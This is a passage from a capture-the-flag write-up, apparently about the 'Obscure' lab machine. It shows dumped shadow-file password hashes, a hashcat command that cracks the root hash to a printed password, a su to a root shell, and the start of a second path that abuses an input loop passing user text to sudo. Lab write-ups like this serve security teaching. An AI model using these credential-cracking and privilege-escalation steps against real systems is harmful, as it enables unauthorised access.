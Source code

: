 

In the file, there's hashes (and a lot of extra whitespace):



    robert@obscure:/dev/shm$ cat PMcu46FZ 
    root
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
    18226
    0
    99999
    7




    robert
    $6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
    18163
    0
    99999
    7



I can crack that easily in `hashcat`:



    root@kali# hashcat -m 1800 -a 0 -o root.cracked shadow /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    root@kali# cat root.cracked 
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:mercedes



Now I can `su` and get a root shell:



    robert@obscure:/dev/shm$ su -
    Password: 
    root@obscure:~#



And get `root.txt`:



    root@obscure:~# cat root.txt 
    512fd4429f**********************



### Path 2: Inject into sudo

Looking more closely at what happens when auth is successful, it enters
this loop:



    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')

